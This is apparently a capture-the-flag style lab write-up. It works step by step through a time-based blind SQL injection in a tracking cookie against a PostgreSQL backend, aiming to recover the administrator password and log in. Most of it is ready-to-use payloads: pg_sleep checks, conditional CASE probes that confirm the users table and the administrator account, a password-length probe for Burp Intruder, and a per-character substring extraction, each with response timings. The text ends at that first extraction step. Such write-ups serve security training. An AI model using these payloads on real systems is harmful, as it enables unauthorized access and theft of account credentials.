 vulnerable paramter - _tracking cookie_  

## End goals:  
- Exploit time-based blind SQLi to output the administrator password
- Login as the administrator user

## Analysis:  
1. Confirm that the parameter is vulnerable to SQLi  
`'|| pg_sleep(10)--`  
> Confirm that it is vulnerable to SQLi, and it is postgreSQL  


2. Confirm that the users table exist in the db  
`'|| (select case when (1=1) then pg_sleep(10) else pg_sleep(-1) end)--`  
> The negative number in pg_sleep() means don't sleep at all.  
> It took 10313 millis to get the 200 OK response.  

`'|| (select case when (1=0) then pg_sleep(10) else pg_sleep(-1) end)--`  
> It took 308 millis to get the 200 OK response.  

`'|| (select case when (username='administrator') then pg_sleep(10) else pg_sleep(-1) end from users)--`  
> It took 10317 millis to get the 200 OK response. 
> It means the username administrator exists in the users.  


3. Enumerate the password length  
`'|| (select case when (username='administrator' and LENGTH(password)>1) then pg_sleep(10) else pg_sleep(-1) end from users)--`
> It took 10313 millis to get the 200 OK response. 
> It means the password length is bigger than 1.

Send the following to Burp Suite Intruder, to get the exact length of the password.
`'|| (select case when (username='administrator' and LENGTH(password)<25) then pg_sleep(10) else pg_sleep(-1) end from users)--`  
![image](https://user-images.githubusercontent.com/106157137/173727944-88f28fcc-ca13-48d2-b076-69978073ff91.png)  
> So as we know that the password length is 20.  


4. Enumerate the administrator password  
`'|| (select case when (username='administrator' and substring(password,1,1)='a') then pg_sleep(10) else pg_sleep(-1) end from users)--`  
